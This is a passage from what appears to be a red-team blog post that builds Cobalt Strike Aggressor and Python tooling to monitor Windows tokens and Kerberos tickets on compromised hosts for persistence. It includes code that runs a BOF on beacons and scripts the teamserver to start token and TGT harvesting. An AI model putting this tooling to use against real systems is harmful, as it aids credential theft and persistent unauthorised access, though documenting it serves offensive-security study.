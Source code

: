 ```php
    btask($bid, "Start token monitoring");
    $arg_data  = bof_pack($bid, "ii", 1, 0);
    beacon_inline_execute($bid, $data, "go", $arg_data);
}

// this is the command we can launch through the Script Console
command start-token-monitoring {
    // forward the arguments (only the beacon ID here)
    bstart_monitoring(@_)
}
```

Using the agressor looks like the following.

![](/assets/posts/2024-04-18-monitor-cobaltstrike-windows-token-kerberos-persistence/ag_start_monitoring.png)

On the Python script side, the first PoC looked like this.

```python
from sleep_python_bridge.striker import CSConnector

## Connect to server
print("[*] Connecting to teamserver {}:{}...".format(args.host, args.port))
with CSConnector(
    cs_host=args.host, 
    cs_port="50050", 
    cs_user=args.username, 
    cs_pass=args.password,
    cs_directory=args.path) as cs:
    
    # include the adequate CNA for token + TGT stores
    # WARNING: I faced issue if the CNA path is not absolute
    cs.ag_load_script(f"{args.token_store}/custom-token-store.cna")
    cs.ag_load_script(f"{args.tgt_store}/tgt-store.cna")

    # execute the agressor command `start-token-monitoring`
    # in case the command is not launched, print the return value of ag_get_string()
    # if the command is not found, check the WARNING above
    cs.ag_get_string(monitoring.beacon_id, script_console_command="start-token-monitoring", sleep_time=0)
    # execute the agressor command `start-tgt-monitoring`
    cs.ag_get_string(monitoring.beacon_id, script_console_command="start-tgt-monitoring")
```

Then I used [fwkz/riposte](https://github.com/fwkz/riposte) to have a very convenient tool that I can run via tmux on the teamserver host.

```python
from sleep_python_bridge.striker import CSConnector
from argparse import ArgumentParser
from time import sleep
from riposte import Riposte
from prettytable import PrettyTable
from threading import Thread

class CustomRiposte(Riposte):
    def setup_cli(self):
        return
    def parse_cli_arguments(self):
        return

```